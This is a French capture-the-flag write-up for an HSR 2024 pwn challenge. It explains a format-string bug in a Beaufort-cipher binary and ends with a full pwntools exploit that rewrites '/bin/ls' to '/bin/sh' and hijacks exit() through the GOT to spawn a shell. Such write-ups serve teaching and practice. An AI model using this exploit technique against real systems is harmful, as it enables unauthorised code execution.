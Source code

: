 ```yaml
---
title: Chiffrement de Beaufort -  HSR 2024
date: 2024-04-01
draft: false
categories:
  - format string
  - HSR
  - pwn
tags:
  - pwn
  - format_string
  - HSR
---
```

## Binary Analysis
Pour analyser le binaire, on va commencer par l'ouvrir avec un décompilo, comme **Binja**. Le binaire n'étant pas strippé, on peut s'aider des symboles pour deviner ce que fait chaque fonction.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_symbols.png)

A part la fonction *backdoor()* qui aspire à servir de fonction *win()*, le nom des fonctions ne nous apporte rien d'intéressant.
Regardons un peu plus en détail ce que fait le programme.

### Main()
Tout d'abord, la fonction *main()* va lire l'entrée standard à 2 reprises, attendant de l'utilisateur qu'il envoie une chaine de maximum 0x64 caractères. Ensuite elle va stocker ces entrées dans 2 buffers, puis appeler la fonction *beaufortCipher()* avec ces 2 buffers en paramètres.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_main1.png)

### beaufortCipher()
Quant à la fonction *cipherBeaufort()*, comme son nom l'indique, elle applique un chiffrement de **Beaufort** sur notre première input. La clé utilisée pour chiffrer le buffer est enfait notre 2ème input.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_cipher.png)

### End of main()
Une fois que notre input a été chiffrée avec la clé qu'on donne au programme, la fonction *main()* affiche le buffer chiffré, puis la clé qu'on lui a donné.
Et c'est ici que se trouve la vuln. 

En effet, le *printf()* que le programme appel pour afficher notre clé prend directement la clé comme premier argument. Ainsi notre input (la clé) est interpetée, par *printf()*, comme étant le formatteur.
Le programme est donc vulnérable à une format string.

![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_main2.png)

## Theorycraft
Maintenant réfléchissons à comment on va exploiter la vuln. Si on fait un **checksec**, on remarque que le binaire n'a ni **PIE**, ni **RelRO**.
```sh title:checksec
Canary  :    ✘ 
NX      :    ✓ 
PIE     :    ✘ 
Fortify :    ✘ 
RelRO   :    Partial
```

Dans tous les cas on part du principe que **l'ASLR** est actif. De plus, comme le chall est en remote, on a pas les détails de l'environnement dans lequel run le binaire, donc c'est trop foireux de se baser sur des adresses hardcodées de la stack.

Par contre, l'abscence de **RelRO** et de **PIE** nous permet non seulement de localiser la **GOT** à coup sûr, mais aussi d'y accéder en écriture. On peut donc envisager d'overwrite certaines entrées de la GOT afin d'obtenir notre shell.

Enfin on a une fonction *backdoor()* qui lance un *system("/bin/ls")*. La string *"/bin/ls"* étant dans la section *.data*, on peut la changer pour *"/bin/sh"* avant de rediriger le flow d'execution vers *backdoor()*.
## Exploitation
Notre exploit va se faire en 3 étapes:
1) Trouver à quel offset notre input se trouve sur la stack, au moment du call à *printf()*
2) Overwrite *"/bin/ls"* avec *"/bin/sh"*
3) Overwrite l'entrée de *exit()* dans la **GOT** avec l'adresse de *backup()*

### Input offset
Pour trouver l'offset, tout ce qu'on a à faire est de lancer le programme, **break** au moment du *printf()* vulnérable et regarder à quelle distance de **$ESP** se trouve notre input. Pour repérer facilement notre input, on va envoyer *"aaaaaaa..."* comme clé.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_gdb.png)

On voit que notre input est à $0$x$78$ bytes de **$ESP**, soit en 32 bits, $30*4$ bytes. Notre offset est donc 30.

### The Exploit
Pour ce qui est de l'exploit, on va utiliser le module *fmtstr* de *Pwntools* et plus particulièrement la fonction *fmtstr_payload()*. Il nous suffit simplement de lui passer comme argument l'offset de notre input ainsi qu'un dictionnaire des adresses et des valeurs qu'on souhaite écrire.

```py
payload = fmtstr_payload(30, writes) 
print(payload)
```

L'adresse de *"/bin/ls"* est *0x0804c024*. On va donc écrire *"sh"* à *0x0804c029*, ce qui nous donnera *"/bin/sh"*.
Enfin on va réécrire l'entrée de *exit()* dans la **GOT** par l'adresse de la fonction *backup()*.

```py
writes = { 0x0804c029: 0x00006873, 
		   elfexe.got['exit']: elfexe.sym['backdoor']}
```

Ce qui donne comme exploit final :
```py title:exploit.py
#!/usr/bin/python3.9 
from pwn import * 

context.binary = elfexe = ELF('./beaufort.bin')

def start(argv=[], *a, **kw): 
	'''Start the exploit against the target.''' 
	elf_path = elfexe.path 
	
	if args.REMOTE: 
		remote_server = '10.22.148.11'
		remote_port = 1341
		target = remote(remote_server, remote_port) 
	else:  
		target = process([elf_path] + argv, *a, **kw) 
	
	return target 
		
#=========================================================== 
# EXPLOIT GOES HERE 
#=========================================================== 
def pad(payload): 
	return payload+b'_'*(0x64-len(payload)) 
	
arguments = [] 
io = start(arguments) 

writes = {0x0804c029: 0x00006873, 
		  elfexe.got['exit']: elfexe.sym['backdoor']} 

payload = b"A"*0x60 
io.sendline(payload) 

payload = fmtstr_payload(30, writes) 
payload = pad(payload) 

print(payload) 
io.sendline(payload) 

io.interactive()
io.close()
```
